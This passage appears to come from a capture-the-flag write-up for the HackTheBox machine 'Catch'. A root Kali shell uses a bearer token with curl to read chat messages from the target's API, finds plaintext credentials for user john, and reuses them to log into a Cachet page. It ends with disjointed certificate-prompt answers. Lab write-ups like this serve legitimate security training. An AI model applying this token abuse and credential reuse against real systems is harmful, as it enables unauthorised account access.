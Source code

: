 ```json
┌──(root㉿kali)-[~/htb/catch/catchv1.0]
└─# curl -s -X GET "http://catch.htb:5000/rooms/61b86b28d984e2451036eb17/messages" -H "Authorization: bearer NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ==" | json_pp
[
<SNIP>
   {
      "id" : "61b8702dfe190b466d476bfa",
      "owner" : "61b86f15fe190b466d476bf5",
      "posted" : "2021-12-14T10:21:33.859Z",
      "room" : "61b86b28d984e2451036eb17",
      "text" : "Here are the credentials `john :  E}V!mywu_69T4C}W`"
   },
<SNIP>
]
```

## Cachet Access As John

There's a few messages but this one is interesting. Let's try it on the login page we found earlier:

![catch-cachet-login](/assets/images/2022-04-22-16-38-07.png)

It works and we are in:


  [Unknown]:  1
  [Unknown]:  1
  [Unknown]:  1
  [Unknown]:  1
  [Unknown]:  1
  [Unknown]:  us
  [no]:  yes